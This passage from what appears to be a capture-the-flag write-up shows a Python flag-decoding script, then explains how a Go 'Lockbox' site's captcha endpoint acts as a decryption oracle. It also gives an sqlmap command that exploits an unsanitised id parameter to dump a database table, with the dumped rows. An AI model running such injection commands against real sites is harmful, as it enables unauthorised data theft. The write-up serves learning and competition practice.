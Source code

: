 ```python
            break
        var2 = buffer[(var1*4+256)>>2] * var2
        var1 += 1
    buffer[(i*4+256)>>2] = var2 + 1
    # flag += chr(buffer[(i*4)+256] ^ ord(buf_128[i]))
    flag += chr(((var2 + 1) ^ ord(buf_128[i])) & 0xFF)
    i += 1
    print(flag)
```

this eventually prints out `Impossible is for the unwilling.`, and entering this into the box gives our flag.

![Solution](inwasmble-3.png)

# <a name="seven"></a>Lockbox (600p) [go, web]

We're given an image with the URL `https://lockbox-6ebc413cec10999c.squarectf.com/?id=3` on it, and the source code to a Golang website for storing time-locked secrets. To upload a secret, you need to enter a time when your message should be decryptable, and a captcha. When you want to read a message, you need to provide both the id and the hmac of the data, and the current server time must be greater than the given timelock time. The crypto and time check for the messages do seem sound, and there's no glaring vulnerabilities there.

However, the captcha is generated in your session, but instead of giving the letters to you, they give them in an encrypted form. The `/captcha` end-point is able to decrypt this captcha message, and display it to you. So the end-point is basically a decryption oracle. If we can obtain an encrypted message, we can decrypt it with the captcha oracle, and by increasing the width parameter we can see all the letters in the output.

The `id` parameter is also being used directly inside an SQL query with no attempts at sanitation, and exploiting this is trivial. For maximum ease, I just used sqlmap for this, and the final command looked like this

`$ python sqlmap.py -o -u "https://lockbox-6ebc413cec10999c.squarectf.com/?id=3" --random-agent -D primary_app_db -T texts --dump`

```
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
| id | data                                                                                                                                                   | lock       |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
| 1  | TIJlneBxX-6sr4kUQdw0idCcoDh-t0lj5fU9e3cgU_gmLOZ96NrvxRe32o0wWrPJsv_66ACUTgPL_ewvHxMvOn2AGZl2opQO15rOjfkiw1lAEzhtK62J2Ce3T-SyzCpzSPSwQM6OdoF9HeZCH_xqFg | 1570492800 |
| 2  | P2HVNdfiXhJVnbjE70yqC2fLS8Cez0bxvfoDfDn5FRo8nAVU_R5ZTblcj5CgLw_qtM_D3zgWElLmeFqIGZwq49kgI-rvlR_tKXmFMVGbkVaTeEy6V0JM9EiRthnlIEjAq_L8Qs9WTBWZ2nzZrs57Mw | 1570665600 |
| 3  | Nw12G_0K_xYt4ZR3mO7cKuc5CFrrszCysLZrLgxhoGcakkjTs7x86DotIiD5fzgSZYK-zX3bWTE-dEJrmPBlgQ                                                                 | 1602288000 |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------+------------+
```
